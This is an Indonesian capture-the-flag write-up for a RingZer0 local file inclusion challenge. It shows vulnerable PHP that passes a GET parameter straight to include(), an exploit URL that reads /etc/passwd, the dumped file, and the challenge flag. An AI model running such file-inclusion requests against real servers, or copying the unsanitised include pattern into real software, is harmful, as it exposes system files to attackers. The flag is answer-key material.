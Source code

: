 <h1><b>Looking for password file</h1></b>
<pre>
http://challenges.ringzer0team.com:10075/?page=lorem.php
</pre>
</b><h3>Solution</h3></b>
<p align='justify'>Diberikan sebuah URL website <u>http://challenges.ringzer0team.com:10075/?page=lorem.php</u> yang sepertinya berupa challenge LFI (local file inclusion) yang mana
penyerang dapat melihat seluruh akses direktori dari sebuah halaman website dan yang lebih parah lagi melihat file sensitif seperti file passwd linux</p>
<p align='justify'>Pada URL kita tinggal mengganti lorem.php dengan /etc/passwd. yang otomatis browser membaca file tersebut, dan script php yang memungkinkan dari
kelemahan tersebut seperti dibawah ini</p>

```php
<?php 
$file = $_GET['page'];
if(isset($file))
{	
	include("$file");
}
else
{
	include("index.php");	
}
?>
```
<p>Perhatikan requests method GET dan include() disana terdapat kelemahan yang attacker dapat dengan mudah mengakses semua dirktori dan file target</p>
<u>http://challenges.ringzer0team.com:10075/?page=/etc/passwd</u>
<pre>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:MailingListManager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:GnatsBug-ReportingSystem(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:FLAG-zH9g1934v774Y7Zx5s16t5ym8Z:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
syslog:x:102:105::/home/syslog:/bin/false
</pre>
</b><h3>Flag</h3></b>
<pre>
FLAG-zH9g1934v774Y7Zx5s16t5ym8Z
</pre>
